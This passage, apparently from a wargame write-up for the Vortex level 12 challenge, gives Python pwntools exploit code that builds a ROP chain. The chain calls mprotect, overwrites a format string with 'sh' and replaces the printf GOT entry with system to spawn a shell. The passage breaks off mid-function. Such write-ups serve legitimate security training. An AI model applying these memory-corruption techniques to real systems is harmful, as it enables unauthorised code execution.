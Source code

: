 Finally I used these three 'primitives' to make a rop chain:
```python
def gen_rop():
    # Move stack address containing rop chain (for strpcy)
    rop.raw(0xffffd522)

    # Need some fill to offset start of rop chain in the stack
    rop.raw(FILL * 258)

    # mprotect on the rodata section
    call_mprotect(rop, 0x0804a000)

    # Replace global '%d' with 'sh'
    arb_write(rop, 'sssh', STR_ADDR-2, NOP)

    # Replace 'printf' GOT entry with 'system'
    arb_write(rop, SYSTEM, elf.got['printf'], NOP)

    # JMP EAX infinite loop
    rop.raw(POP_EAX)
    rop.raw(JMP_EAX)
    rop.raw(JMP_EAX)
    return rop    
```

### Exploit
And here is the full source of the exploit:

```python
#!/usr/bin/python3
from pwn import *
import sys
import os

elf = ELF('/vortex/vortex12')
elf.address = 0x8048000
libc = elf.libc
libc.address =  0xf7c00000

rop = ROP(elf, badchars=b'\x00')
libcrop = ROP(libc, badchars=b'\x00')

context.binary = elf

def call_mprotect(rop, page):
    MOV_EDX_EAX = 0x00198ca0 + libc.address # mov edx, eax; xor eax, eax; tzcnt edx, edx; add eax, edx; ret
    XOR_EAX_FFFFFFFF = 0x001192f0 + libc.address # xor eax, 0xffffffff; ret
    MOV_EAX_ECX = 0x0002f6ac + libc.address # mov eax, ecx; ret
    INC_EBX = 0x0006b229 + libc.address # inc ebx; ret 
    NOP = 0x0002fce8 + libc.address # nop; ret
    SYSCALL = 0x000df619 + libc.address # call dword gs:[0x10]; ret
    JMP_EAX = 0x000218e7 + libc.address # jmp eax
    POP_EDI = 0x00021e78 + libc.address
    POP_EAX = 0x0002ed92 + libc.address
    POP_EBX = 0x0002c01f + libc.address
    POP_ECX_POP_EDX = 0x00037374 + libc.address # pop ecx; pop edx; ret

    # Get length of '0xffffffff' into ecx
    rop.raw(POP_ECX_POP_EDX)
    rop.raw(0xffffffff)
    rop.raw(0xffffffff)
    
    # Get '7' into edx (prot of RWX)
```